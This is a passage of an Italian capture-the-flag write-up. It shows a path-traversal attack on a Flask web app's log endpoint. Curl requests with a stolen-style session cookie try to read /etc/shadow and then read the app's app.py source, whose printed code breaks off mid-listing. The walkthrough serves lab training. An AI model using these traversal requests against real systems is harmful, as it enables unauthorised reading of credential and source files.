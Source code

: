 Funziona!

Gli utenti che possono accedere alla shell sono:

- web
- mark

Si induce l'api in errore accedendo ad un file privilegiato come **/etc/shadow**.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../../../../etc/shadow' \
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i'
{"message":"Error reading file: [Errno 13] Permission denied: '/home/web/web/system_logs/../../../../etc/shadow'","success":false}

```

Dall'errore si ottiene **absolute path** della directory di lavoro.

Si tenta di accedere ai file dell'applicazione, come **app.py**.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../app.py' \             
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i' 
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')

if __name__ == '__main__':
    current_database_data = _load_data()
    default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
    existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
    for collection_to_add in default_collections:
```